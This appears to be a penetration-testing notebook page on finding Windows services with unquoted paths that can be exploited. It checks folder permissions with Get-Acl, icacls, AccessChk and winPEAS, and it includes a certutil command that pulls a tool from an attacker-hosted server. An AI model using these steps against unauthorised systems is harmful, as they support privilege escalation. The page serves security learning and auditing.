 ```yaml
---
legal-banner: true
---
```


### **Enumerating service permissions with Get-Acl (PowerShell)**

1.  `Get-Acl` is a built-in cmdlet in PowerShell. No additional modules are required.  
    [Microsoft documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.4)  
    
    ![](../../../../img/Windows-Environment/78.png)

    **Note:** We can use the following command to enumerate folder permissions.

2.  Unlike `icacls`, `Get-Acl` does not explicitly list "Modify". Instead, it provides an *Access Mask Format*, where numbers represent permissions (e.g., Modify).  
    `Get-Acl -Path C:\ | Format-List`  
    
    ![](../../../../img/Windows-Environment/79.png)
    
3.  For example, numerical value `-1610612736` represents Read and Execute.  
    `Get-Acl -Path "C:\Program Files" | Format-List`  
    
    ![](../../../../img/Windows-Environment/80.png)

4.  In this example, `BUILTIN\Users` have `FullControl` on `C:\Program Files\Unquoted Path Service`.  
    `Get-Acl -Path "C:\Program Files\Unquoted Path Service" | Format-List`

    ![](../../../../img/Windows-Environment/81.png)

### **Enumerating service permissions with icacls (CMD)**

1.  To verify permissions with `icacls`, review Microsoft’s [documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).  
    
    ![](../../../../img/Windows-Environment/82.png)
    
2.  Example for `C:\`: Administrators and SYSTEM have Full Control; Authenticated Users can create folders but not files.  
    `icacls C:\`

    ![](../../../../img/Windows-Environment/83.png)
    
3.  Example for `C:\Program Files`: TrustedInstaller has Full Control; SYSTEM and Administrators have Modify/Full Control; Users have Read & Execute.  
    `icacls "C:\Program Files"`

    ![](../../../../img/Windows-Environment/84.png)
    
4.  Example for `C:\Program Files\Unquoted Path Service`: Users, SYSTEM, and Administrators have Full Control (inherited).  
    `icacls "C:\Program Files\Unquoted Path Service"`

    ![](../../../../img/Windows-Environment/85.png)
    
5.  Example for `C:\Program Files\Unquoted Path Service\Common Files`: Users have Read & Execute; SYSTEM/Administrators have inherited Full Control; CREATOR OWNER also has inherited Full Control.  
    `icacls "C:\Program Files\Unquoted Path Service\Common Files"`

    ![](../../../../img/Windows-Environment/86.png)
    
6.  POC: Moving an EXE into `C:\`, `C:\Program Files`, or `C:\Program Files\Unquoted Path Service\Common Files` is blocked, but works in `C:\Program Files\Unquoted Path Service\`.  

    ![](../../../../img/Windows-Environment/87.png)

### **Enumerating service permissions with AccessChk**

1.  Download the Sysinternals Suite if not already installed: [Microsoft site](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).  

    ![](../../../../img/Windows-Environment/88.png)

    **Note:** Verify system architecture:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host `accesschk64.exe` with Python and transfer it:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`

    ![](../../../../img/Windows-Environment/89.png)
    
3.  Enumerate permissions on `C:\`. Output shows write access is restricted to creating subfolders (`FILE_ADD_SUBDIRECTORY`).  
    `.\accesschk64.exe -wvud "C:\" -accepteula`

    ![](../../../../img/Windows-Environment/90.png)

4.  For `C:\Program Files`: SYSTEM and Administrators have extensive permissions; standard users cannot write.  
    `.\accesschk64.exe -wvud "C:\Program Files" -accepteula`

    ![](../../../../img/Windows-Environment/91.png)

5.  For `C:\Program Files\Unquoted Path Service`: All users, including standard users, have Full Write permissions.  
    `.\accesschk64.exe -wvud "C:\Program Files\Unquoted Path Service" -accepteula`

    ![](../../../../img/Windows-Environment/92.png)

### **Enumerating unquoted service paths with winPEAS**

1.  `winPEAS` can detect unquoted service paths in the “Service Information” section.  

    ![](../../../../img/Windows-Environment/93.png)

2.  Scroll further to the “Application Information → Installed Applications” sub-section to check which directories in the unquoted path are writable.  

    ![](../../../../img/Windows-Environment/94.png)

??? info "Note"

    If no writable directories are found in the unquoted service path, the service cannot be exploited.